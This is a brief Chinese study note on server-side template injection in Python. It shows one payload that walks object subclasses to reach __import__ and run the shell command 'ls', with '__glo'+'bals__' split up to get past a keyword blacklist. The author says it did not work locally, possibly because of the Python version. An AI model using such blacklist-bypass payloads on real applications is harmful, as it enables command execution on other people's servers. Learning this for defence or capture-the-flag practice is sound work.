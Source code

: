 ```python
[].__class__.__base__.__subclasses__()[58].__init__['__glo'+'bals__']['__builtins__']['__import__']('commands').getoutput('ls')
```
这里通过`__init__['__glo'+'bals__']`代替了`__init__.__globals__`，实现了对`globals`黑名单的绕过
然而本地可能因为版本问题没有成功过==

#Web #python #绕过 #SSTI 